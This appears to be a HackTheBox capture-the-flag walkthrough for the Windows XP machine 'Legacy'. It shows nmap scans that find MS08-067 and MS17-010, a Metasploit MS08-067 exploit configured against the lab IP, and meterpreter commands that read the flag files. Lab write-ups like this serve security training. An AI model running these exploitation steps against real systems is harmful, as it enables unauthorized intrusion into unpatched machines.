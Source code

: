 ```yaml
---
layout: default
title: "Legacy"
tags: HackTheBox Windows 2020
---
```


| OS       | Difficulty | Points | Release Date  | IP Address  |
|----------|------------|--------|---------------|-------------|
| Windows  | Easy       | 20     | 15 March 2017 | 10.10.10.4  |



# Skills

* NMap
* NMap Scripts
* Metasploit

# Information Gathering

## Nmap (Port Scan)

```bash
sudo nmap -A -T4 -p- 10.10.10.4
```

This was the initial nmap scan. The key things to note is that:
* ```139/tcp open microsoft-ds  Windows XP microsoft-ds```
* ```445/tcp open  netbios-ssn   Microsoft Windows netbios-ssn```
were both open.

```bash
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000|2008 (94%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_server_2008::sp2
Aggressive OS guesses: Microsoft Windows XP SP3 (94%), Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows XP (92%), Microsoft Windows Server 2003 SP2 (92%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows 2000 SP4 (91%), Microsoft Windows XP SP2 or Windows Server 2003 (91%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP Professional SP3 (90%), Microsoft Windows XP SP2 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h29m19s, deviation: 2h07m16s, median: 4d22h59m19s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:77:a5 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-07-19T01:40:36+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   26.12 ms 10.10.14.1
2   27.55 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.33 seconds
```

## Nmap (SMB Vulnerability Scan)

```bash
sudo nmap --script smb-vuln* -p 139,445 10.10.10.4
```

Then, using the NMap script ```smb-vuln```, I scanned the open ports discovered (```139``` & ```147```) from the previous scan to see if the SMB version was vulnerable to any known exploits.

```bash
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 5.54 seconds
```

# Exploitation

## Searching for MS08-067

Once I discovered that the machine was vulnerable to ```MS08-067```, I then searched for the matching metasploit module to begin exploitation.

```bash
msf5 > search MS08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


msf5 > use 0
```

## Setting Module Options

Then for configuration. There wasn't a whole lot configuration for this exploit, just set the ```RHOSTS``` to the target machines IP Address (```10.10.10.4```)

```bash
msf5 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf5 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4

```   

# User Flag

Once completed, I then had a meterpreter shell on the machine. Finally, using the meterpreter command ```search``` with the ```-f``` flag, we can easily locate the flag files.

```bash
meterpreter > cd ..
meterpreter > cd ..
meterpreter > pwd
C:\
meterpreter > search -f user.txt
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > cat "Documents and Settings\john\Desktop\user.txt"

```

# Root Flag

```bash
meterpreter > search -f root.txt
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat "Documents and Settings\Administrator\Desktop\root.txt"

```